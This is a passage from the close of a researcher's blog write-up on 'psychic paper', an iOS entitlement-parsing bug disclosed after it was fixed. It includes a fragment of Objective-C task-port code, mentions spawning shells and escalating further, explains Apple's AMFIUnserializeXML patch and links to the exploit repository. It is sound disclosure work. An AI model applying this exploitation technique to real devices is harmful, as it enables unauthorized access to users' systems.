    ret = mach_ports_register(task, NULL, 0);
#else
    // We can do this:
    *realport = task;
    ret = mach_ports_register(proxy, NULL, 0);
#endif
    NSLog(@"mach_ports_register: %s", mach_error_string(ret));
}
```

I hope that's good enough for ya. ;)

**// END OF UPDATE**

---

You can further get some JIT entitlements to dynamically load or generate code, you can spawn a shell, or any of literally a thousand other things.

There are a mere two privileges this bug does not give us: root and kernel. But for both of those, our available attack surfaces just increased a hundredfold, and I would argue that going to root isn't even worth it, because you might as well go straight for the kernel.

But I hope you will understand, dear reader, that losing one 0day is loss enough for me, so of course escalating past "mobile with every entitlement ever" is left as an exercise to you. ;)

## 5. The patch

Given the elusive nature of this bug, how did Apple ultimately patch it? Obviously there could only be one way: by introducing MORE PLIST PARSERS!!!one!

In iOS 13.4 already, Apple hardened entitlement checks somewhat, due to a bug report [credited to Linus Henze][cve]:

> **AppleMobileFileIntegrity**
>
> Available for: iPhone 6s and later, iPad Air 2 and later, iPad mini 4 and later, and iPod touch 7th generation
>
> Impact: An application may be able to use arbitrary entitlements
>
> Description: This issue was addressed with improved checks.
>
> CVE-2020-3883: Linus Henze (pinauten.de)

While I don't know the exact details of that bug, based on [a tweet of Linus][tweet] I'm assuming this had to do with bplist, which, while also exploiting parser differences, wouldn't have gotten past `amfid`. And my bug actually survived the 13.4 fix, but was finally killed in 13.5 beta 3.

I also don't know whether it was Linus, Apple or someone else who went on to look for more parser differences, but having two entitlement bugs fixed in two consecutive minor iOS releases feels like too much of a coincidence, so I'm strongly assuming whoever it was drew inspiration from Linus' bug.

Apple's final fix consists of introducing a new function called `AMFIUnserializeXML`, which is pasted into both AMFI.kext and `amfid`, and is used to compare against the results of `OSUnserializeXML` and `CFPropertyListCreateWithData` to make sure they are the same. You can still include a sequence like `<!---><!--><!-- -->` in your entitlements and it will go through, but try and sneak anything in between those comments, and AMFI will tear your process to shreds and report to syslog:

> AMFI: detected an anomaly during entitlement parsing.

So while this does technically bump the number of XML/plist parsers from 4 to 6, it does sadly actually mitigate my bug. :(

## 6. Conclusion

As far as first 0days go, I couldn't have wished for a better one. This single bug has assisted me in dozens of research projects, was used thousands of times every year, and has probably saved me just as many hours. And the exploit for it is in all likelihood the most reliable, clean and elegant one I'll ever write in my entire life. And it even fits in a tweet!!  
Well over 3 years since discovery is not half bad for such a bug, but I sure would've loved to keep it another decade or two, and I know I'll dearly miss it in the time to come.

We can also ask ourselves how a bug like that could ever exist. Why the hell there are 4 different plist parsers on iOS. Why we are still using XML even. But I figure those are more philosophical than technical in nature. And while this entire story shows that it might be a good idea to periodically ask ourselves whether the inaccuracies of our mental models are acceptable, or something should be documented and communicated more thoroughly, I really can't accuse Apple of much here. Bugs like these are probably among the hardest to spot, and I have truly no idea how the hell _I_ was able to find it while so many others didn't.

Now, I've pumped this post out as soon as I possibly could, so if I've left any mistake in here, you have any questions, or just wanna chat in general, feel free to [file an issue][issue], hit me up [on Twitter][twitter], or shoot me an email at `*@*.net` where `*` = `siguza`.

At the time of writing, this bug is still present on the latest non-beta version of iOS. The whole project is available [on GitHub][repo], have fun with it while it lasts!

And finally, some of the reactions I got of Twitter for all of you to enjoy:

[][joke]

[][silly]

[][slick]

[][beautiful]

[][thonk]

[][lmao]


  [poc]: https://twitter.com/s1guza/status/1255641164885131268
  [lore]: https://tardis.fandom.com/wiki/Psychic_paper
  [xkcd-url]: https://xkcd.com/1144/
  [xkcd-img]: https://imgs.xkcd.com/comics/tags.png
  [entlist]: http://newosxbook.com/ent.jl
  [cl0ver]: https://siguza.github.io/cl0ver/
  [bsdinit]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/bsddev/IOKitBSDInit.cpp.auto.html
  [iouc]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/Kernel/IOUserClient.cpp.auto.html
  [iokituser]: https://opensource.apple.com/source/IOKitUser/IOKitUser-1726.41.1/IOCFUnserialize.tab.c.auto.html
  [cf]: https://opensource.apple.com/source/CF/CF-1153.18/CFPropertyList.c.auto.html
  [src]: https://github.com/Siguza/psychicpaper/tree/master/src
  [cve]: https://support.apple.com/en-us/HT211102
  [tweet]: https://twitter.com/LinusHenze/status/1243170188205461508
  [issue]: https://github.com/Siguza/psychicpaper/issues
  [twitter]: https://twitter.com/s1guza
  [repo]: https://github.com/Siguza/psychicpaper
  [joke]: https://twitter.com/joshuaseltzer/status/1255653827191148544
  [silly]: https://twitter.com/chronic/status/1255679349186981889
  [slick]: https://twitter.com/da5ch0/status/1255946105268961280
  [beautiful]: https://twitter.com/Emu4iOS/status/1255929980808298500
  [thonk]: https://twitter.com/nicolas09F9/status/1255906004719538182
  [lmao]: https://twitter.com/InvoxiPlayGames/status/1255648539851587585
  [proxy]: https://github.com/Siguza/psychicpaper/blob/master/stuff/proxy.m
